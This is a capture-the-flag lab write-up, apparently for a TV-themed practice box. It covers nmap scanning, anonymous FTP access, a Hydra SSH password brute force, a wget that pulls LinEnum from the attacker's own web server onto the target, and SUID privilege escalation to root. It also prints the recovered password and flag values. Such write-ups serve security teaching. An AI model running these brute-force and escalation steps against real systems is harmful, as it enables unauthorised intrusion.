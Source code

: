 

Start off with nmap default scripts (-sC), show versions (-sV) and output all formats (-oA).
`sudo nmap -sC -sV -oA nmap 10.10.136.175`

![Image 1](.attachments/Pasted image 20231123102936.png)
We have 3 ports
21: FTP server
22: SSH server
80: HTTP 

There is a file with a note for 'jake' on the FTP server and I can login anonymously. When prompted with a username, I can put 'anonymous' and leave the password empty when prompted (just press enter). 
After login, I can see there is a file there and can use the 'less' command to show the content of the text file: 
![[attachments/Pasted image 20231123103006.png)

I know now that user 'jake' has a weak password and that there are 3 users in total:
- jake
- amy
- holt
As seen in amy's message, it looks like the user holt is some sort of admin. 

After, I visited the webpage, where there is an image of Brooklyn nine nine, a television show. I googled the main character, who is called 'jake'. If I would not have found the note, I would have tried to use the username jake as well, but we know with the message on the FTP server we definitely have something here. We also find a note on the FTP server being stored there for Jake.

Now that we know the usernames, I can try to use Hydra to brute force into the SSH server. As only jake has a weak password, I will only try to brute force his credentials.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.136.175 -t 4 ssh`

In the meantime, I also kick off a gobuster to see if we can find any other directories in the meantime.
`gobuster dir -u http://10.10.136.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

The gobuster didn't result into anything, but Hydra did find a password for the user jake:
![[attachments/Pasted image 20231123103050.png)

I can now login to the SSH server with: 
Username: jake
Password: 987654321
`ssh jake@10.10.136.175`

We are now logged into the SSH server!
![[attachments/Pasted image 20231123103106.png)

I can now try to move to other folders. When I move up to the home directory, the folders for amy and holt are there. If we look into holt's directory and list all files, we find 
## Flag 1 user.txt: ee11cbb19052e40b07aac0ca060c23ee
![[attachments/Pasted image 20231123103128.png)

Now I need to escalate my privileges to find the root.txt flag.
I will start getting the LinEnum package onto the SSH server. The script I used [can be found here](https://github.com/rebootuser/LinEnum.git)
Next, I setup a local webserver from where I can grab the script from within the SSH server. First move back to jake's folder, as we don't have permissions in holt's folder.
On my local terminal: `python3 -m http.server`
On the SSH server: `wget 10.10.137.228:8000/LinEnum.sh`
I now have the file, but need to make it executable first with the following command:
`chmod +x LinEnum.sh`

All steps are in the following image:
![[attachments/Pasted image 20231123103141.png)

Now I can run the LinEnum script with:
`./LinEnum.sh`

After the enumeration, I can see that there is an interesting SUID file
![[attachments/Pasted image 20231123103201.png)

Looking at [GTFO bins](https://gtfobins.github.io/), there is an exploit I can try to run to get sudo privileges:
![[attachments/Pasted image 20231123103212.png)

After running the command, **we get root access**. To now stabelize the shell and to have autocomplete, I used the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After this, I was able to access the root directory and find the second and last flag:
### **root.txt: 63a9f0ea7bb98050796b649e85481845**
![[attachments/Pasted image 20231123103222.png)

Thanks for reading!

